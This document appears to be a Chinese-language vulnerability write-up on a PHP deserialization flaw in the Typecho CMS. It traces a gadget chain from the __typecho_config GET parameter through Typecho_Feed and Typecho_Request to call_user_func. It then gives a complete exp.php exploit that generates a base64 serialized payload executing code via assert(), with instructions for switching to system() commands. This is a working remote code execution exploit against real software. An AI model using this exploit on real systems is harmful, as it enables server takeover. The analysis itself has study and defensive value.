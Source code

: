 ```php+HTML
return $value;
}
}
$config = unserialize(base64_decode($_GET['__typecho_config']));
$db = new Typecho_Db($config['adapter']);
?>
```

​	通过分析代码可得到，该web应用通过==_GET[‘__typecho_config’]==从用户处获取了反序列化的对象，满足反序列化漏洞的基本条件，unserialize()的参数可控，这里是漏洞的入口点。接下来，程序实例化了类Typecho_Db，类的参数是通过反序列化得到的config。

​	在类Typecho_Db的构造函数中，进行了字符串拼接的操作，而在PHP魔术方法中，如果一个类被当做字符串处理，那么类中的__toString()方法将会被调用。全局搜索，发现类Typecho_Feed中存在__toString()方法。

​	在类Typecho_Feed的__toString()方法中，会访问类中私有变量item[‘author’]中的screenName，这里又有一个PHP反序列化的知识点，如果item[‘author’]是一个对象，并且该对象没有screenName属性，那么这个对象中的__get()，方法将会被调用，在Typecho_Request类中，正好定义了__get()方法。__

​	类Typecho_Request中的\_\__get()方法会返回get()，get()中调用了applyFilter()方法，而在\_\_applyFilter()中，使用了PHP的call_user_function()函数，其第一个参数是被调用的函数，第二个参数是被调用的函数的参数，在这里filter，value都是我们可以控制的，因此可以用来执行任意系统命令。**至此，一条完整的利用链构造成功。**

### 写出对应的利用exe.php文件

```php+HTML
/*exp.php*/
<?php
class Typecho_Feed
{
private $item;
public function __construct(){
$this->item = array(
'author' => new Typecho_Request(),
);
}
}
class Typecho_Request
{
private $_params = array();
private $_filter = array();
public function __construct(){
$this->_params['screenName'] = 'phpinfo()';
$this->_filter[0] = 'assert';
}
}
$exp = array(
'adapter' => new Typecho_Feed()
);
echo base64_encode(serialize($exp));
?>
```

上述代码中用到了PHP的assert()函数，如果该函数的参数是字符串，那么该字符串会被assert()当做PHP代码执行，这一点和PHP一句话木马常用的eval()函数有相似之处。phpinfo();便是我们执行的PHP代码，如果想要执行系统命令，将phpinfo();替换为system(‘ls’);即可，注意最后有一个分号。访问exp.php便可以获得payload，通过get请求的方式传递给typecho.php后，phpinfo()成功执行。
